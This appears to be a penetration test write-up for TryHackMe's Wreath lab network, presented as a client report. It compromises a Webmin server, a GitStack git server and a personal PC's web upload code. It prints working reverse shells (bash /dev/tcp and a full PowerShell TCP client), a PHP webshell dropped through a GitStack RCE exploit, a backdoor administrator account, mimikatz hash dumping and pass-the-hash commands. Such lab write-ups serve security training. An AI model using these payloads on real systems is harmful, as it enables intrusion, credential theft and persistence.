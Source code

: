 # Penetration Test Report - Wreath

## Table of Contents

- Executive Summary
- Timeline
- Findings and Remediations
- Attack Narrative
- Cleanup
- Conclusion
- References
- Appendices

_____________________________________

## Executive Summary

Our client, Thomas Wreath contacted us to perform a security penetration test on his computer network. Thomas briefed us on the high level architecture prior to the engagement. The scope includes the public facing webserver (local IP address `*.*.*.200`), git server of unknown IP address and his personal PC of also unknown IP address. We were tasked to find any vulnerabilities within the public facing webserver and to pivot to possibly to the git server or even his personal PC

By the end of the engagement, several vulnerabilities were found with suggested remediations detailed in this report. We were able to gain highest level of access to the public webserver, the git server, and Thomas' personal PC (despite having Windows Defender antivirus installed)

> Note: we will now refer to all local IP addresses by their last octect eg. `*.*.*.200` as `.200`

_____________________________________

## Timeline

The sequence is as follows:
1. Webserver (`.200`) 
   1. enumeration
   2. exploitation
   3. maintain access
2. Pivoting with Webserver (`.200`)
3. gitserver (`.150`) 
   1. enumeration
   2. exploitation
   3. maintain access
4. Personal PC (`.100`)
   1. enumeration
   2. code review
   3. exploitation
   4. maintain access

_____________________________________

## 1. Webserver (`.200`)

### Findings

- Vulnerable `MiniServ 1.890 (Webmin httpd)` running on port 80 - `CVE-2019–15107`
- ssh private keys was obtained after getting root access
- ssh on port 22 was enabled which allowed us to maintain access

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a network scan

```
nmap -p-15000 10.200.81.200 -oN initial.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-05 02:14 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).
Not shown: 14995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 118.64 seconds
```

Researching the Webmin version reveals this server is vulnerable to [`CVE-2019–15107`](https://www.cvedetails.com/cve/CVE-2019-15107/)

_____________________________________

### Webserver exploitation

Exploit used: `https://github.com/MuirlandOracle/CVE-2019-15107`

```
./CVE-2019-15107.py 10.200.81.200

        __        __   _               _         ____   ____ _____     
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|    
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|      
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___     
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|     
                                                                       
                                                @MuirlandOracle        
                                                                       
                                                                       
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                     
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id                                                                   
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

Create a reverse shell by:

1. New terminal start a nc listener

```
nc -lvnp 1337
```

2. On the pseudo shell run a reverse bash command
   
```
/bin/bash -i >& /dev/tcp/10.50.82.56/1337 0>&1 
```

3. Back on the listener terminal, we have reverse shell

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45242          
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell                                     
[root@prod-serv ]# id                                                  
id                                                                     
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

_____________________________________

### Webserver maintain access - ssh private keys

SSH keys are commonly stored in the home directory under `~/.ssh`

```
ls -la ~/.ssh
total 16
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  228 Apr  4 10:20 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2602 Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  345 Apr  3 07:54 known_hosts
```

With root access, we have read access to the private key `id_rsa`.

This key can be used to ssh straight into the webserver

```
ssh -i id_rsa root@10.200.81.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

</details>
<br>

### Remediation

- Update `MiniServ 1.890 (Webmin httpd)` to the latest version

_____________________________________

## 2. Pivoting with webserver (`.200`)

### Findings

- Using the webserver `.200`, we perform a scan of the network 
- Two hosts found with local IP addresses ending with `.100` and `.150`
- Host `.100` have filtered ports 
- Host `.150` have open ports that we can further enumerate on

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

## Perform a network scan 

> We first upload a binary of nmap to the webserver and log in using ssh keys obtained previously

Ping scan - found `100` and `150` are up

```
[root@prod-serv tmp]# ./nmap-Neozer0 -sn 10.200.81.1-255 -oN scan-Neozer0

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:29 BST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00035s latency).
MAC Address: 02:8C:E0:55:7B:89 (Unknown)
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Host is up (0.00014s latency).
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Host is up (-0.10s latency).
MAC Address: 02:AD:06:35:A5:CB (Unknown)
Nmap scan report for ip-10-200-81-250.eu-west-1.compute.internal (10.200.81.250)
Host is up (0.00022s latency).
MAC Address: 02:E7:4E:C8:80:A7 (Unknown)
Nmap scan report for ip-10-200-81-200.eu-west-1.compute.internal (10.200.81.200)
Host is up.
Nmap done: 255 IP addresses (5 hosts up) scanned in 3.73 seconds
```

> Note: we ignore `.1 ` and `.250` (VPN server) here as they are out of scope

Scanning ports for `.100` returns filtered ports
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.100

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-14 10:17 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 6150 scanned ports on ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100) are filtered
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

Scanning ports for `.150` returns results
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:57 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00049s latency).
Not shown: 6142 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  epmap
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
5985/tcp  open  wsman
47001/tcp open  winrm
MAC Address: 02:AD:06:35:A5:CB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 574.74 seconds
```

It is still unknown what this server is and more enumeration is required

</details>
<br>

_____________________________________

## 3. gitserver (`.150`)

### Findings

- Ports `80`, `3389`, `5986` are open
- git server running `gitstack`
- `gitstack` is vulnerable to unauthenticated RCE
- Using rdp we were able to run mimikatz and obtain hashes for persistence

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a port scan 

Scanning ports for `.150` returns results
```
[root@prod-serv tmp]# ./nmap-Neozer0 -p1-15000 10.200.85.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-16 23:49 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00083s latency).
Not shown: 14997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 02:4C:02:6B:0D:57 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 280.32 seconds
```

_____________________________________

### Examine the webpage on port 80

Webpage through port `80` is only visible if we were to access with Webserver `.200`. This can be done with sshuttle

```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24 -x 10.200.85.200
c : Connected to server.
```

> Note we use the ssh keys private keys again here

Visiting the webpage reveals that the server is using `gitstack` and a path `registration/login/` exists

![gitserver](gitPivot.png)

Visiting the page shows a login page (default admin/admin creds do not work here)

![gitserver login](gitstack.png)

_____________________________________

### GitStack exploitation

We obtain a gitstack exploit and modify to suit
Use searchsploit on gitstack
```
kali@kali:~/thm/wreath$ searchsploit gitstack
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
GitStack - Remote Code Execution                                                                                                                                    | exploits/php/webapps/44044.md
GitStack - Unsanitized Argument Remote Code Execution (Metasploit)                                                                                                  | exploits/windows/remote/44356.rb
GitStack 2.3.10 - Remote Code Execution                                                                                                                             | exploits/php/webapps/43777.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Download the potential RCE found with searchsploit
```
kali@kali:~/thm/wreath$ searchsploit -m 43777
  Exploit: GitStack 2.3.10 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/43777
     Path: /usr/share/exploitdb/exploits/php/webapps/43777.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/thm/wreath/43777.py
```

Change the ip address to target IP eg `10.200.85.150` and the location where the backdoor will live (`Neozer0-exploit.php`)

```python
ip = '10.200.85.150'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

...

print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\Neozer0-exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/Neozer0-exploit.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

These create PHP webshell `<?php system($_POST['a']); ?>` and echo it into `Neozer0-exploit.php` under webroot.

This can be accessed by posting a command to `/web/Neozer0-exploit.php`

Run `43777.py` - the backdoor will live in `IP/web/exploit-Neozer0.php`

```
kali@kali:~/thm/wreath$ python2 43777.py 
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```

> Note the `whoami` command runs on first execution

We can now run commands on the webshell using query params of `a`

Find hostname - `git-serv`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=hostname"
"git-serv
" 
```

Find OS  - `Windows`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=systeminfo"
"
Host Name:                 GIT-SERV
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763

...
```

### Obtaining a reverse shell

This is a bit more difficult as we want to listen from our Attacking Machine for a nc connection through the Webserver `.200` to the gitserver `.150`. Here we use a socat relay

Start a nc listener on attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
listening on [any] 30000 ...
```

Open up a port on Web server `.200`
```
[root@prod-serv ~]# firewall-cmd --zone=public --add-port 29999/tcp
success
```

Set up a relay on `.200` (pass through to attacking machine)
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:29999 tcp:10.50.82.56:30000 &
[1] 2902
```

> Note: we upload a socat version to the `/tmp` directory to use

Execute a reverse shell

Use this command to get a reverse shell - use web server IP and port that was just opened
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.85.200',29999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Need to url encode the command first if using `curl`

Attacking machine
```
kali@kali:~/thm/wreath$ curl -X POST -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.85.200%27%2C29999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit-Neozer0.php
```

We receive a shell on our attacking machine!
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
[sudo] password for kali: 
listening on [any] 30000 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.200] 46412
whoami
nt authority\system
PS C:\GitStack\gitphp> 
```

### Maintain access

From inital port scans we see that rdp is enabled on port 3389 (RDP) and 5985 (WinRM)

Since we already have ultimate access, we can create these users that can leverage rdp

We need to add the account to the Administrators and Remote Management Users groups 

```
PS C:\GitStack\gitphp> net user Neozer0 taco /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators Neozer0 /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" Neozer0 /add
The command completed successfully.
```


```
kali@kali:~/thm/wreath$ evil-winrm -u Neozer0 -p taco -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Neozer0\Documents> whoami
git-serv\neozer0
```

We access the server with rdp

run xfreerdp to get GUI rdp
```
kali@kali:~/thm/wreath$ xfreerdp /v:10.200.85.150 /u:Neozer0 /p:taco +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
[03:04:23:067] [2154:2155] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd

...
```

We can see a share folder that can be accessed on cli as `\\tsclient\`

![xfreerdp](xfreerdp-share-folder.png)

Run cmd as admin and run mimikatz

We can obtain the hashes by running: 
- `privilege::debug`
- `token::elevate`
- `lsadump::sam`


```
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                                                                    C:\Windows\system32>\\tsclient\share\mimikatz\x64\mimikatz.exe                                                                                                                                                                                                                            .#####.   mimikatz 2.2.0 (x64) #18362 Jan  4 2020 18:59:26                                                                                 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                                  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                                     ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )                                                                     '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/                                                                                                                                                                                                               

mimikatz # privilege::debug                                                                                                                 Privilege '20' OK                                                                                                                                                                                                                                                                       

mimikatz # token::elevate                                                                                                                   Token Id  : 0                                                                                                                               User name :                                                                                                                                 SID name  : NT AUTHORITY\SYSTEM                                                                                                                                                                                                                                                         672     {0;000003e7} 1 D 20141          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary                                      -> Impersonated !                                                                                                                           * Process Token : {0;000b5d45} 2 F 1722298     GIT-SERV\Neozer0        S-1-5-21-3335744492-1614955177-2693036043-1002  (15g,24p)    Primary                                                                                                                                             * Thread Token  : {0;000003e7} 1 D 1795378     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)                                                                                                                                                    

...

mimikatz # lsadump::sam                                                                                                                     Domain : GIT-SERV                                                                          User : Administrator                                                                                                                          Hash NTLM: ********************************                                                                                                                                                                                                                                           

...

RID  : 000003e9 (1001)                                                                                                       User : Thomas                                                                                                                  Hash NTLM: ********************************                                                

...
```

![xfreerdp mimikatz](xfreerdp-mimikatz.png)

With the Administrator's hash we can log in using evil-winrm's pass the hash without the use of socat relay and nc listener

```
kali@kali:~/thm/wreath$ evil-winrm -u Administrator -H ******************************** -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
git-serv\administrator
```

Clean up
- Delete `/tmp/socat-Neozer0` - webserver
- Delete `/Neozer0-exploit.php` - gitserver
- Delete user `Neozer0` - gitserver


</details>
<br>

_____________________________________

## 4. Personal PC (`.100`)

### Findings

- Ports 80 and 3389 are open
- PHP 7.4.11 is used
- Webpage can be found in the gitserver `.150`
- Analysing git commits we see a new path on the website `/resources` with an upload feature
- There are two filters on the upload feature to bypass
  - File extension
  - Image size

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a port scan on Personal PC (`.100`)

First we run evil-winrm with `-s` to specify path to scan script `Invoke-Portscan`

Performing portscans reveal ports `80` and `3389` are open
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.85.100 -TopPorts 50


Hostname      : 10.200.85.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 21, 23...}
finishTime    : 4/22/2021 10:49:34 AM
```

Next we check out the webserver

_____________________________________

### Check out the webserver on Personal PC (`.100`)

Because the Personal PC port 80 is only opened to the gitserver `.150`, we need to perform additional steps.

Chisel forward proxy is a good option with sshuttle being used.

1. Open up a port in Windows firewall (we chose port 34999 here) - `netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh advfirewall firewall add rule name="Chisel-Neozer0" dir=in action=allow protocol=tcp localport=34999
Ok.
```

2. Start a `chisel client` on attacking machine

```
kali@kali:~/thm/wreath$ chisel client 10.200.85.150:34999 9090:socks
2021/04/22 06:34:39 client: Connecting to ws://10.200.85.150:34999
2021/04/22 06:34:39 client: tun: proxy#127.0.0.1:9090=>socks: Listening
2021/04/22 06:35:24 client: Connection error: read tcp 10.50.86.79:40978->10.200.85.150:34999: i/o timeout
2021/04/22 06:35:24 client: Retrying in 100ms...
2021/04/22 06:36:09 client: Connection error: read tcp 10.50.86.79:40980->10.200.85.150:34999: i/o timeout (Attempt: 1)
2021/04/22 06:36:09 client: Retrying in 200ms...
2021/04/22 06:36:54 client: Connection error: read tcp 10.50.86.79:40982->10.200.85.150:34999: i/o timeout (Attempt: 2)
2021/04/22 06:36:54 client: Retrying in 400ms...
2021/04/22 06:37:28 client: Connected (Latency 262.542935ms)
```

3. Upload chisel (Windows version) to Git server (`.150`) and run `chisel server` (note we chose port 34999)

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload /tmp/chisel c:\windows\tmp\chisel-Neozer0.exe

*Evil-WinRM* PS C:\Users\Administrator\Documents> c:\windows\tmp\chisel-Neozer0.exe server -p 34999 --socks5
chisel-Neozer0.exe : 2021/04/22 11:37:19 server: Fingerprint 4YNhTCGX+gcPiJEUdmRj7Qil1srdihA8ooqp0LBNLnY=
    + CategoryInfo          : NotSpecified: (2021/04/22 11:3...hA8ooqp0LBNLnY=:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2021/04/22 11:37:19 server: Listening on http://0.0.0.0:349992021/04/22 11:37:27 server: session#1: Client version (0.0.0-src) differs from server version (1.7.6)

```

4. Now port forwarding is connected, we set up Foxy proxy with the following settings
- IP 127.0.0.1
- Port 9090
- Proxy type SOCKS5
![foxyproxy setting](foxyproxysetting.png)

5. visit 10.200.85.100 - this is a clone of Thomas' personal website
6. Using Wappalyzer to detect php is used on this page

![local web server](wapplocalwebserver.png)

Further enumeration is required

_____________________________________

### gitserver (`.150`) code review

We find `Webserver.git` on the git server in `C:\GitStack\repositories`

```
*Evil-WinRM* PS C:\> ls GitStack/repositories


    Directory: C:\GitStack\repositories


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2021   7:05 PM                Website.git
```

Download the entire directory and use GitTools to analyse commits

```
*Evil-WinRM* PS C:\GitStack\repositories> download Website.git
Info: Downloading C:\GitStack\repositories\Website.git to Website.git

Info: Download successful!
```

Rename the downloaded folder 
```
kali@kali:~/thm/wreath$ mv Website.git/C\:\\GitStack\\repositories\\Website.git/ Website.git/.git
kali@kali:~/thm/wreath$ ls -la Website.git/
total 12
drwxr-xr-x 3 kali kali 4096 Apr 22 07:20 .
drwxr-xr-x 7 kali kali 4096 Apr 22 07:07 ..
drwxr-xr-x 5 kali kali 4096 Apr 22 07:09 .git
```

We then use GitTools to extract some data
```
kali@kali:~/thm/wreath$ ls -la gitserver/downloaded-website/
total 12
drwxr-xr-x 3 kali kali 4096 Apr 23 06:44 .
drwxr-xr-x 3 kali kali 4096 Apr 23 06:44 ..
drwxr-xr-x 6 kali kali 4096 Apr 23 06:40 .git
kali@kali:~/thm/wreath$ ls GitTools/
Dumper  Extractor  Finder  LICENSE.md  README.md
kali@kali:~/thm/wreath$ ./GitTools/Extractor/extractor.sh gitserver/downloaded-website/ gitserver/Website                                                                                             
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[+] Found folder: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css                                                                                              
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/.DS_Store                                                                                      
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/bootstrap.min.css
```

We see the extracted directories are commits but are not sorted by date
```
kali@kali:~/thm/wreath/gitserver/Website$ ls
0-70dde80cc19ec76704567996738894828f4ee895  2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
```

Inside each commit folder, there is a `commit-meta.txt` which tells us more info
```
kali@kali:~/thm/wreath/gitserver/Website$ cat 0-70dde80cc19ec76704567996738894828f4ee895/commit-meta.txt 
tree d6f9cc307e317dec7be4fe80fb0ca569a97dd984
author twreath <me@thomaswreath.thm> 1604849458 +0000
committer twreath <me@thomaswreath.thm> 1604849458 +0000

Static Website Commit
```

We use a bash one liner to loop through all the folders `commit-meta.txt` and cat them out `separator="====="; for i in $(ls); do printf "\n\n$separator\n$i\n$(cat $i/commit-meta.txt)";done`

```
kali@kali:~/thm/wreath/gitserver/Website$ separator="====="; for i in $(ls); do printf "\n\n$separator\n$i\n$(cat $i/commit-meta.txt)";done


=====
0-70dde80cc19ec76704567996738894828f4ee895
tree d6f9cc307e317dec7be4fe80fb0ca569a97dd984
author twreath <me@thomaswreath.thm> 1604849458 +0000
committer twreath <me@thomaswreath.thm> 1604849458 +0000

Static Website Commit

=====
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
tree c4726fef596741220267e2b1e014024b93fced78
parent 82dfc97bec0d7582d485d9031c09abcb5c6b18f2
author twreath <me@thomaswreath.thm> 1609614315 +0000
committer twreath <me@thomaswreath.thm> 1609614315 +0000

Updated the filter

=====
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
tree 03f072e22c2f4b74480fcfb0eb31c8e624001b6e
parent 70dde80cc19ec76704567996738894828f4ee895
author twreath <me@thomaswreath.thm> 1608592351 +0000
committer twreath <me@thomaswreath.thm> 1608592351 +0000

Initial Commit for the back-end
```

There are three commit messages here `Static Website Commit`, `Updated the filter`, `Initial Commit for the back-end`. 

Commit without a parent would be the first one. The commits are in these order:
1. `Static Website Commit` - `70dde80cc19ec76704567996738894828f4ee895`
2. `Initial Commit for the back-end` - `82dfc97bec0d7582d485d9031c09abcb5c6b18f2`
3. `Updated the filter` - `345ac8b236064b431fa43f53d91c98c4834ef8f3`

Now we head into the folder `345ac8b236064b431fa43f53d91c98c4834ef8f3`

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ ls -la
total 68
drwxr-xr-x 7 kali kali  4096 Apr 23 06:45 .
drwxr-xr-x 5 kali kali  4096 Apr 23 06:45 ..
-rw-r--r-- 1 kali kali   225 Apr 23 06:45 commit-meta.txt
drwxr-xr-x 2 kali kali  4096 Apr 23 06:45 css
-rw-r--r-- 1 kali kali 17340 Apr 23 06:45 favicon.png
drwxr-xr-x 2 kali kali  4096 Apr 23 06:45 fonts
drwxr-xr-x 2 kali kali  4096 Apr 23 06:45 img
-rw-r--r-- 1 kali kali 15383 Apr 23 06:45 index.html
drwxr-xr-x 2 kali kali  4096 Apr 23 06:45 js
drwxr-xr-x 3 kali kali  4096 Apr 23 06:45 resources
```

We use the `find` command to look for php files

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ find . -name "*.php"
./resources/index.php
```

```php
<?php

        if(isset($_POST["upload"]) && is_uploaded_file($_FILES["file"]["tmp_name"])){
                $target = "uploads/".basename($_FILES["file"]["name"]);
                $goodExts = ["jpg", "jpeg", "png", "gif"];
                if(file_exists($target)){
                        header("location: ./?msg=Exists");
                        die();
                }
                $size = getimagesize($_FILES["file"]["tmp_name"]);
                if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
                        header("location: ./?msg=Fail");
                        die();
                }
                move_uploaded_file($_FILES["file"]["tmp_name"], $target);
                header("location: ./?msg=Success");
                die();
        } else if ($_SERVER["REQUEST_METHOD"] == "post"){
                header("location: ./?msg=Method");
        }


        if(isset($_GET["msg"])){
                $msg = $_GET["msg"];
                switch ($msg) {
                        case "Success":
                                $res = "File uploaded successfully!";
                                break;
                        case "Fail":
                                $res = "Invalid File Type";
                                break;
                        case "Exists":
                                $res = "File already exists";
                                break;
                        case "Method":
                                $res = "No file send";
                                break;

                }
        }
?>
<!DOCTYPE html>
<html lang=en>
        <!-- ToDo:
                  - Finish the styling: it looks awful
                  - Get Ruby more food. Greedy animal is going through it too fast
                  - Upgrade the filter on this page. Can't rely on basic auth for everything
                  - Phone Mrs Walker about the neighbourhood watch meetings
        -->
        <head>
                <title>Ruby Pictures</title>
                <meta charset="utf-8">
                <meta name="viewport" content="width=device-width, initial-scale=1.0">
                <link rel="stylesheet" type="text/css" href="assets/css/Andika.css">
                <link rel="stylesheet" type="text/css" href="assets/css/styles.css">
        </head>
